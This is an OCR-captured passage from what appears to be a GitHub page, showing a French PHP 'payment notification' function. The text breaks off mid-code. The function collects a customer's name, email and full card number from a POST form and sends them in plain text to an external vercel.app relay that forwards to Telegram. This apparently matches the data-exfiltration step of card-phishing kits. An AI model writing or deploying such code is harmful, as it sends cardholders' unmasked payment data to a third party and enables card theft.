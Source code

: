 
### 3. PHP

```php
<?php
function sendPaymentNotification($paymentData) {
    $API_URL = 'https://test-alpha-lac-68.vercel.app/api/telegram';
    
    $message = "💰 NOUVEAU PAIEMENT REÇU !\n";
    $message .= "👤 Nom: " . $paymentData['customerName'] . "\n";
    $message .= "📧 Email: " . $paymentData['email'] . "\n";
    $message .= "💳 Carte: " . $paymentData['cardNumber'] . "\n";
    $message .= "💶 Montant: " . $paymentData['amount'] . "€\n";
    $message .= "🔒 Vérifiez immédiatement !";
    
    $data = [
        'message' => $message,
        'type' => 'payment'
    ];
    
    $options = [
        'http' => [
            'header' => "Content-type: application/json\r\n",
            'method' => 'POST',
            'content' => json_encode($data)
        ]
    ];
    
    $context = stream_context_create($options);
    $result = file_get_contents($API_URL, false, $context);
    
    if ($result === FALSE) {
        return ['success' => false, 'error' => 'Erreur de connexion'];
    }
    
    $response = json_decode($result, true);
    
    if ($response['success']) {
        return [
            'success' => true,
            'messageId' => $response['telegramResponse']['result']['message_id']
        ];
    } else {
        return [
            'success' => false,
            'error' => $response['error']
        ];
    }
}

// Utilisation
if ($_POST) {
    $paymentData = [
        'customerName' => $_POST['customerName'],
        'email' => $_POST['email'],
        'amount' => $_POST['amount'],
        'cardNumber' => $_POST['cardNumber']
    ];
    
    $result = sendPaymentNotification($paymentData);
    
    if ($result['success']) {
        echo "✅ Paiement réussi et notification envoyée !";
    } else {
```